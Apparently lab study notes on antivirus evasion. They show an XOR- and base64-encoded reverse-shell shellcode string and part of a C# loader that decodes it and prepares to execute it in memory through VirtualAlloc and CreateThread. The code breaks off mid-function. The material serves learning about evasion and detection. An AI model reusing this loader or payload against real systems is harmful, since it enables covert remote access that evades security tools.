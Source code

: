 	- This is the output of the reverse shell bytecode AFTER encryption and encoding.

<u>Output</u>:

![](/assets/img/Pasted image 20230114160336.png)

- In text:

```
qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FALe+HQsNzFVEfP8LFWPr7lhLrpgI6oedMYHIgHSejLwBcMUazKqunsrwm4Bxn+4eOcDzI2Vh0BK9EHRR8UiKbB2NhcM1Wq4eXBJni24dXq5az1Vm8ZPuHjhu3cFcBMWKmojYM3TfgsSxlnY9GxaABNUSCU8QEtuZlttI25KtObBoTMzIX2MGRtbULFZM96BGB0bYzlhcmNJvkeSq8ysplg2SV5C4HVbezEsX6iyIl0dZBGol0dAq53Ii0d1znw7VLggvf6RL87nW0I5LE3C0C5mZQLXPloUHdGEV/V3BWhJTMZ3XSH0M2UAGBsdZT9nfGV3Bx4lMv9Gt83mqLQGGw3MSVk6tDw0t5jww8yTZFuHwfXQtOZFN045oa+oOE6IPiJAXEtUG7Ke
```

### Self-Decoding Payload
- Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode BEFORE executing it.

		- Doesn't this happen just BEFORE the thread to execute this payload gets created? (CreateThread WinAPI?)

- To match the encoder, ***we will decode everything in the reverse order we encoded it***, so we start by decoding the base64 content and then continue by `XOR-ing` the result with the same key we used in the encoder:

```csharp

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);
```